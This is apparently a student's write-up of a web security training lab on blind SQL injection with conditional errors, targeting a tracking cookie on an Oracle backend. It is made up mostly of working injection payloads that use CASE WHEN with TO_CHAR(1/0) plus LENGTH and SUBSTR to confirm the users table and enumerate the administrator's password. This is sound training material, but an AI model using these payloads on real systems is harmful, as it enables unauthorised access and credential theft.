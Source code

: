 Lab #12 - Blind SQL Injection with conditional errors

Vulnerable parameter - Tracking Cookie

End Goals:

- Obatain the password of administrator
- Login as administrator user

Analysis:

1. Confirm the parameter is vulnerable

   g31CW6mjktuq8Zkd' || (select '' from dual) || ' -> `200 OK response` -> `oracle database`

2. Confirm that the users table exists in database

   g31CW6mjktuq8Zkd' || (select '' from users where rownum=1) || ' -> `200 OK response` -> `users table exists`

3. Confirm that the user 'administrator' exists

   g31CW6mjktuq8Zkd' || (select '' from users where username='administrator') || ' -> returns **200 OK response**, no matter what (even if the administrator user doesn't exist)

   so we need to generate an error if the user exists...

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator') || ' -> `gives 500 Internal Error` -> `user administrator exists`

4. Determine the length of password for the 'administrator'

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>=1) || ' -> `gives 500 Internal Error` -> `password greater than 1 char` -> `password = 20 characters`

5. Determine the password for the 'administrator'

   g31CW6mjktuq8Zkd' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,`1`,1)='`a`') || ' -> `gives 500 Internal Error if` **1st** `char is` **a**

   
